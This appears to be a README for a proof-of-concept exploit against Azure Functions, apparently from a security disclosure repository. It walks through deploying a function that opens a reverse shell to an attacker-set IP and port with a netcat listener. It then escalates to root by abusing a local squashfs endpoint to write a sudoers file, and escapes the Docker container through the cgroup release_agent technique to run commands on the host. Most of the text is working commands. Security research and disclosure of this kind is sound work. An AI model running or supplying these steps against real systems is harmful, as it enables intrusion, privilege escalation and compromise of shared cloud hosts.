 In this POC we'll setup a reverse shell with the squashfs to escalate privileges in Azure Function, and break out of the Docker environment.

1. Install [Azure Functions CLI](https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local?tabs=linux%2Ccsharp%2Cbash)

2. Follow the Azure [guide](https://docs.microsoft.com/en-us/azure/azure-functions/create-first-function-cli-python?tabs=azure-cli%2Cbash%2Cbrowser) for setting up an Azure Function

3. Copy the files required for the POC to the function directory:

   ```bash
   cp files/__init__.py FUNCTIONDIR/FUNCTIONNAME/__init__.py
   cp files/sudoers.sqsh FUNCTIONDIR/
   ```

4. Fill in the `PORT` and `IP` fields in the `FUNCTIONDIR/FUNCTIONNAME/__init__.py`  file to the server that will communicate with the reverse shell.

5. Deploy the function (like in the guide above):

   ```func azure functionapp publish <APP_NAME>```

6. Listen on the reverse shell port (don't forget to white list this port on the firewall):

   ```nc -nlv 0.0.0.0 PORT ```

   and invoke the Function with the invocation URL you were given with the `functionapp publish` command.

7. You should now be in the Azure Function, escalate privileges:

   ```bash
   curl "localhost:6060/?operation=squashfs&filePath=/home/site/wwwroot/sudoers.sqsh&targetPath=/etc/sudoers.d"
   sudo su
   ```

8. Finally, break out of the Docker container (run ps on the Docker host in our example):

   ```bash
   mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
            
   touch /output
   echo 1 > /tmp/cgrp/x/notify_on_release
   mount > /tmp/mtab
   host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /tmp/mtab`
   echo "$host_path/cmd" > /tmp/cgrp/release_agent
            
   echo '#!/bin/sh' > /cmd
   echo "ps aux >> $host_path/hostps" >> /cmd
   echo "ps aux >> $host_path/hostps2" >> /cmd
   chmod a+x /cmd
   
   sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs" 
   ```

